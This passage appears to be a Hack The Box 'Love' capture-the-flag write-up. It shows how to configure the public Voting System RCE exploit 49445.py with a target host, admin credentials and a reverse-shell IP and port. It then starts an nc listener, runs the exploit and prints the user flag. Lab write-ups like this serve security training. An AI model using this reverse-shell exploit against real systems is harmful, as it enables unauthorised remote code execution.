




If we search “Voting System exploit” in Google we can find some exploit



So let's to download this RCE (49445.py) and we need modify the part of the code that says “Edit your settings here”
```bash
$ emacs 49445.py
```



```bash
# --- Edit your settings here ----
IP = "www.love.htb" # Website's URL
USERNAME = "admin" #Auth username
PASSWORD = "@LoveIsInTheAir!!!!" # Auth Password
REV_IP = "10.10.17.55" # Reverse shell IP
REV_PORT = "8888" # Reverse port 
# --------------------------------

INDEX_PAGE = f"http://{IP}/admin/index.php"
LOGIN_URL = f"http://{IP}/admin/login.php"
VOTE_URL = f"http://{IP}/admin/voters_add.php"
CALL_SHELL = f"http://{IP}/images/shell.php"
```

Now we open a listener in the port 8888
```bash
$ nc -lvnp 8888
```



And now execute the exploit
```bash
$ python3 49445.py
```


```bash
User flag: bed1f844b3b6794859925bbecad326fe
```

[Back](README.md)